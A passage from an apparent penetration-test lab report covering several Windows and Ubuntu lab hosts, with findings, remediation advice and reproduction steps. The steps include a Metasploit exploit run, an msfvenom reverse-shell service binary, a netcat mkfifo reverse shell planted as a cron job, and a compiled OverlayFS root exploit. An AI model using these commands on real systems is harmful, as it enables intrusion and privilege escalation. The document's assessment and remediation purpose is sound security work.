# Working exploit
use exploit/windows/misc/mobile_mouse_rce

# Set the target host
set rhosts 192.168.138.155

# Set to your VPN IP
set lhost tun0

# Execute exploit
run
```



**Proof Screenshot:**
```powershell
whoami&&hostname&&ipconfig&&type local.txt
```



**local.txt content:** REDACTED_PROOF

### Privilege Escalation - Service Binary Hijacking

**Finding ID:** F-07

**Affected Systems:** APP-HOST-02

**Observed Impact:** A low-privileged account could replace a service executable and trigger execution as SYSTEM.

**Severity Rationale:** HIGH reflects the requirement for an initial local foothold and the resulting SYSTEM privileges.

**Vulnerability Explanation:**

During local system enumeration, inspection of local Windows services revealed that the `GPGOrchestrator` service binary (`GPGService.exe`) was configured with insecure Access Control Lists (ACLs). The low-privileged user account `REDACTED_USER_05` had write access to the binary or its parent directory according to the retained enumeration output. Furthermore, `REDACTED_USER_05` held permissions to restart the service (`SERVICE_STOP` / `SERVICE_START`). By replacing the legitimate binary with a custom payload and restarting the service, an attacker achieved arbitrary command execution in the context of `system`.

**Vulnerability Fix:**

- **Harden File System Access Controls:** Restrict permissions on `GPGService.exe` and its parent directory so that non-administrative user accounts (e.g., `Users`, `Authenticated Users`) only possess `Read` and `Execute` permissions.
- **Restrict Service Control Permissions:** Audit Service DACLs using `sc sdshow GPGOrchestrator` and remove `SERVICE_STOP`, `SERVICE_START`, or `SERVICE_CHANGE_CONFIG` rights for unprivileged users.
- **Implement Least Privilege Service Accounts:** Configure `GPGOrchestrator` to run under a dedicated, low-privileged Managed Service Account rather than `NT AUTHORITY\SYSTEM`.

**Severity:** HIGH

**Detailed Reproduction Steps:**

Local enumeration with `winpeas.exe` identified write access affecting `GPGService.exe` and excessive service control rights.
```powershell
GPGOrchestrator(Genomedics srl - GPG Orchestrator)["C:\Program Files\MilleGPG5\GPGService.exe"] - Auto    
- Running  
   YOU CAN MODIFY THIS SERVICE: AllAccess  
   File Permissions: Users [Allow: WriteData/CreateFiles]  
   Possible DLL Hijacking in binary folder: C:\Program Files\MilleGPG5 (Users [Allow: WriteData/CreateFile  
s])
```

The documented sequence generates a reverse shell executable, stops the service, replaces its binary, and starts the service. The recorded `-f exe` payload is a regular Windows executable; service-compatible behaviour and error handling were not established in the notes. The observed result was a SYSTEM shell. The sequence is retained as recorded:
- Generated a reverse shell service binary
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.249 LPORT=6666 -f exe -o GPGService.exe
```
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.249 LPORT=6666 -f exe -o GPGService.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: GPGService.exe
```
- Stop the target service
```powershell
stop-service GPGOrchestrator
```
- Back up the existing service binary
```bash
move "C:\Program Files\MilleGPG5\GPGService.exe" "C:\Program Files\MilleGPG5\GPGService.exe-bk"
```
- Start a Python HTTP server on the assessment workstation
```bash
python -m http.server
```
- Download binary to target host as a stand in replacement
```bash
iwr -uri http://192.168.45.249:8000/GPGService.exe -outfile "C:\Program Files\MilleGPG5\GPGService.exe"
```
- Start a listener on the assessment workstation
```bash
rlwrap nc -lvnp 6666 
```
- Start the service with the malicious payload
```bash
Start-Service GPGOrchestrator
```

The resulting callback reported `NT AUTHORITY\SYSTEM`, confirming execution in the privileged service context.
```bash
$ rlwrap nc -lvnp 6666
Listening on 0.0.0.0 6666
Connection received on 192.168.138.155 59609
Microsoft Windows [Version 10.0.19045.2251]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```



### Post-Exploitation

**Proof Screenshot:**
```powershell
whoami && hostname && ipconfig && type proof.txt
```



**proof.txt content:** REDACTED_PROOF

## Target #3 APP-HOST-03 - 192.168.138.156

### Attack Summary

- An exposed SNMP extension reset a local account password and disclosed the credential in its output.
- The credential authenticated to Vesta Control Panel, where cron scheduling provided a shell (F-08).
- Execution of an OverlayFS proof of concept produced a root shell (F-09).
- Root access allowed retrieval of the lab proof files.

### Service Enumeration

| Server IP Address | Ports Open                                                               |
| ----------------- | ------------------------------------------------------------------------ |
| 192.168.138.156       | **TCP**: 21,22,25,53,80,110,143,465,587,993,995,2525,3306,8080,8083,8443 |
|                   | **UDP:** 53,161                                                          |

**Nmap Scan Results:**
```bash
nmap -Pn -v --min-rate 500 --max-retries 1 -p- 192.168.138.156
sudo nmap -v -Pn -sU --top-ports 100 -v 192.168.138.156
```
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
110/tcp  open  pop3
143/tcp  open  imap
465/tcp  open  smtps
587/tcp  open  submission
993/tcp  open  imaps
995/tcp  open  pop3s
2525/tcp open  ms-v-worlds
3306/tcp open  mysql
8080/tcp open  http-proxy
8083/tcp open  us-srv
8443/tcp open  https-alt

PORT    STATE SERVICE REASON
53/udp  open  domain  udp-response ttl 61
161/udp open  snmp    udp-response ttl 61
```

*Vesta Control Panel on Port 8083*

*An SNMP extension read triggered a password reset and disclosed credentials for `REDACTED_USER_06`. The tester used those credentials to access Vesta Control Panel and create a scheduled shell callback.*

### Initial Access - Vesta Control Panel Cron Code Execution

**Finding ID:** F-08

**Affected Systems:** APP-HOST-03

**Observed Impact:** Network access to SNMP enabled account password reset and disclosure; credential reuse then allowed a scheduled shell callback.

**Severity Rationale:** CRITICAL reflects the combined account takeover and shell access available from the tested network position. Vesta cron functionality is an execution step, not a separate proven product flaw.

**Vulnerability Explanation:**

Initial network enumeration revealed a Net-SNMP service listening on UDP port 161 configured with a default community string (`REDACTED_SNMP_COMMUNITY`). Performing an `snmpwalk` across the `NET-SNMP-EXTEND-MIB::nsExtendObjects` tree triggered a misconfigured administrative extension script (`reset-password`). This script executed `/bin/sh -c "echo \"REDACTED_USER_06:REDACTED_PASSWORD_07\" | chpasswd"` upon read, resetting local user `REDACTED_USER_06`'s password to a cleartext string exposed directly within the SNMP output lines.

The harvested credentials (`REDACTED_USER_06:REDACTED_PASSWORD_07`) were used to authenticate to the Vesta Control Panel web interface on HTTPS port 8083. Once authenticated, built-in panel functionality was abused to schedule a malicious Cron job containing a Reverse Shell payload, establishing interactive shell access as the `REDACTED_USER_06` user when the task executed.

**Vulnerability Fix:**

- **Remove Hazardous SNMP Extensions:** Remove `extend` directives from `snmpd.conf` that execute privileged operations or state-changing commands (such as password resets) upon reading OIDs.
- **Harden SNMP Configuration:** Disable legacy SNMPv2c default community strings (`public`/`private`) and transition to SNMPv3 with strong cryptographic authentication and encryption (`authPriv`).
- **Restrict Access to Administrative Interfaces:** Restrict exposure of the Vesta Control Panel (port 8083) to trusted management IPs using host-based firewalls or network ACLs.
- **Review Cron Permissions:** Remove cron scheduling from accounts that do not require shell execution. Cron execution is expected functionality where authorized; the demonstrated initial compromise came from the exposed SNMP password reset and credential reuse, rather than a proven Vesta injection flaw.

**Severity:** CRITICAL

**Detailed Reproduction Steps:**

Enumeration of `NET-SNMP-EXTEND-MIB::nsExtendObjects` triggered the configured password-reset extension and exposed `REDACTED_USER_06:REDACTED_PASSWORD_07` in the returned output.

```bash
snmpwalk -c REDACTED_SNMP_COMMUNITY -v2c 192.168.138.156 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
```bash
$ snmpwalk -c REDACTED_SNMP_COMMUNITY -v2c 192.168.138.156 NET-SNMP-EXTEND-MIB::nsExtendObjects
NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 2
NET-SNMP-EXTEND-MIB::nsExtendCommand."reset-password" = STRING: /bin/sh
NET-SNMP-EXTEND-MIB::nsExtendCommand."reset-password-cmd" = STRING: /bin/echo
NET-SNMP-EXTEND-MIB::nsExtendArgs."reset-password" = STRING: -c "echo \"REDACTED_USER_06:REDACTED_PASSWORD_07\" | chpasswd"
NET-SNMP-EXTEND-MIB::nsExtendArgs."reset-password-cmd" = STRING: "\"REDACTED_USER_06:REDACTED_PASSWORD_07\" | chpasswd"
NET-SNMP-EXTEND-MIB::nsExtendInput."reset-password" = STRING:
NET-SNMP-EXTEND-MIB::nsExtendInput."reset-password-cmd" = STRING:
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."reset-password" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."reset-password-cmd" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."reset-password" = INTEGER: shell(2)
NET-SNMP-EXTEND-MIB::nsExtendExecType."reset-password-cmd" = INTEGER: shell(2)
NET-SNMP-EXTEND-MIB::nsExtendRunType."reset-password" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."reset-password-cmd" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."reset-password" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStorage."reset-password-cmd" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."reset-password" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendStatus."reset-password-cmd" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."reset-password" = STRING: Changing password for REDACTED_USER_06.
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."reset-password-cmd" = STRING: "REDACTED_USER_06:REDACTED_PASSWORD_07" | chpasswd
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."reset-password" = STRING: Changing password for REDACTED_USER_06.
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."reset-password-cmd" = STRING: "REDACTED_USER_06:REDACTED_PASSWORD_07" | chpasswd
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."reset-password" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."reset-password-cmd" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendResult."reset-password" = INTEGER: 256
NET-SNMP-EXTEND-MIB::nsExtendResult."reset-password-cmd" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendOutLine."reset-password".1 = STRING: Changing password for REDACTED_USER_06.
NET-SNMP-EXTEND-MIB::nsExtendOutLine."reset-password-cmd".1 = STRING: "REDACTED_USER_06:REDACTED_PASSWORD_07" | chpasswd
```



Service enumeration identified the Vesta Control Panel login at:
- `https://192.168.138.156:8083/login`



The tester authenticated to the panel using `REDACTED_USER_06:REDACTED_PASSWORD_07`.



The account permitted creation of scheduled cron jobs. The tester configured a reverse shell command to demonstrate operating system access under that account.

The tester started a listener on the assessment workstation.
```bash
nc -lvnp 9191
```
The tester saved the following command as a scheduled cron job.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.249 9191 >/tmp/f
```



When the scheduled job executed, the listener received a shell connection from APP-HOST-03.
```bash
$ nc -lvnp 9191
Listening on 0.0.0.0 9191
Connection received on 192.168.138.156 49156
bash: cannot set terminal process group (11975): Inappropriate ioctl for device
bash: no job control in this shell
REDACTED_USER_06@APP-HOST-03:~$ id
id
uid=1003(REDACTED_USER_06) gid=1003(REDACTED_USER_06) groups=1003(REDACTED_USER_06)
```



The local proof file was not readable by the initial account and required root privileges.



### Privilege Escalation - Ubuntu OverlayFS (CVE-2021-3493)

**Finding ID:** F-09

**Affected Systems:** APP-HOST-03

**Observed Impact:** A local account obtained root privileges through the demonstrated OverlayFS exploit path.

**Severity Rationale:** HIGH reflects local access as a prerequisite and the resulting root privileges. Exact kernel package details remain an evidence limitation.

**Vulnerability Explanation:**

The retained walkthrough shows a local user compiling and executing an OverlayFS proof of concept, followed by a shell reporting UID 0. CVE-2021-3493 concerns improper handling of file capabilities across user namespaces in affected Ubuntu kernels. The exact installed kernel package and patch level were not recorded in the supplied text, so the distribution release and automated suggestion alone are not treated as proof of exposure. The recorded successful escalation is the primary result evidence.

**Vulnerability Fix:**

- **Apply the Correct Kernel Update:** Install the vendor-fixed kernel for the actual Ubuntu release and kernel flavour, reboot, and verify the running package. Consult the [Ubuntu CVE-2021-3493 advisory](https://ubuntu.com/security/CVE-2021-3493); a generic upstream version range is insufficient.
- **Review Platform Support:** Move unsupported deployments to a supported release or ensure the applicable extended security maintenance is active.
- **Evaluate Temporary Mitigations:** Where patching cannot occur immediately, assess restricting unprivileged user namespaces against application requirements. Validate any mitigation against the demonstrated path.
- **Retest After Remediation:** Confirm the original low-privileged account can no longer obtain root through the same path.

**Severity:** HIGH

**Detailed Reproduction Steps:**

The OS release identifies Ubuntu 18.04. The demonstrated escalation below uses OverlayFS, not Baron Samedit; no sudo exploit is evidenced in this chain.
```bash
REDACTED_USER_06@APP-HOST-03:~$ cat /etc/os-release
NAME="Ubuntu"
VERSION="18.04 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```

Local enumeration with `linpeas.sh` identified potential kernel privilege escalation candidates. These suggestions required validation and were not treated as confirmed findings by themselves.



The enumeration tool suggested the following candidate. Its broad version range is retained as tool output and is not a verified affected-package range:
```bash
CVE: CVE-2021-3493 | Name: Ubuntu OverlayFS | Match data: pkg=linux-kernel,ver>=3.13,ver<5.14,x86_64 | Tags  
: ubuntu=(14.04|16.04|18.04|20.04|20.10) | Rank: 1 | Details: Only Ubuntu is affected.
```

The tester used the C proof of concept from the [referenced OverlayFS repository](https://github.com/puckiestyle/CVE-2021-3493), compiled it on the target, and executed it. The subsequent `id` output reported UID 0.

```bash
# Paste into nano if terminal can handle
nano exploit.c

# Compile source code on target
gcc exploit.c -o exploit

# Execute exploit
./exploit

(remote) root@APP-HOST-03:/home/REDACTED_USER_06# id
uid=0(root) gid=0(root) groups=0(root),1003(REDACTED_USER_06)
```



**Proof of Concept Code:**
- https://github.com/puckiestyle/CVE-2021-3493

### Post-Exploitation

Root access allowed retrieval of both lab proof files.

**Local Proof Screenshot:**

```bash
id;hostname;ifconfig;cat local.txt
```



**local.txt content:** REDACTED_PROOF

**System Proof Screenshot:**
```bash
id;hostname;ifconfig;cat proof.txt
```



**proof.txt content:** REDACTED_PROOF

# Findings Summary and Remediation Plan

## Findings by Severity

| **SEVERITY** | **COUNT** | **FINDING IDS** |
| ------------ | --------- | --------------- |
| CRITICAL | 4 | F-03, F-04, F-06, F-08 |
| HIGH | 5 | F-01, F-02, F-05, F-07, F-09 |
| MEDIUM | 0 | None reported |
| LOW | 0 | None reported |
